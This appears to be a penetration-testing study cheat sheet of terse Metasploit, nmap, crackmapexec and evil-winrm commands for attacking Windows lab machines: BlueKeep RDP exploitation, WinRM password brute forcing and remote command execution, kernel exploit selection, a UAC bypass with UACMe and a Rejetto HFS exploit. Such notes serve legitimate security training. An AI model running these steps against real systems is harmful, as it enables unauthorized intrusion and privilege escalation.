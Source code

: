 ### BLueKeep CVE-2019-0708 RDP Vulnerability RDP
- Vulnerable XP, Vista, 7, Server 2008 R2
- Vulnerable VM windows 7 build 1/ Service pack 1
- sudo nmap -p 3389 <target-ip>
- search bluekeep
- use auxiliary and then exploit
- show targets
- Ram size 250MB
- set target to 2

### WinRM 5986/443
- nmap -sV <target-ip>
- namp -p 5985,5986 <target-ip> WSman
- crackmapexec winrm <target-ip> -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
- crackmapexec winrm <target-ip> -u administrator -p <password> -x "whoami"  
- evil-winrm.rb -u administrator -p '<password>' -i <target-ip >
- msfconsole 
- search winrm_script_exec
- use set run 

## Windows Privileges Escalation
### Windows Kernel Exploits
- vulnerable machine windows 7 servoce pack 1
- windows exoploit suggester
- windows kernel exploits
- msfconsole
- session
- getprivs
- getsystem
- search local_exploit_suggester
- hit and try search each exploit
- getuid
- systeminfo > windows7.txt
- ./windows-exploit-suggester.py --update 
- ./windows-exploit-suggester.py --database 2021-12-26-mssb.xls --systeminfo windows7.txt
- secwiki/windows-kernel-exploits
- cd C:\\Temp\\
- .\41015.exe

### Bypassing UAC (User Account COntrol) with UACMe
//Http File Server on port 80 version 2.3
``` 
UACME:
Defeat Windows User Account Control (UAC) and get Administrator privileges.
    It abuses the built-in Windows AutoElevate executables.
    It has 65+ methods that can be used by the user to bypass UAC depending on the Windows OS version.
    Developed by https://twitter.com/hFireF0X
    Written majorly in C, with some code in C++
```
- nmap <target-ip>
- service postgresql start
- msfconsole 
- search rejetto
- use set run
- sysinfo
- pgrep explorer
- getprivs
- shell <<>> net user
- net localgroup administrators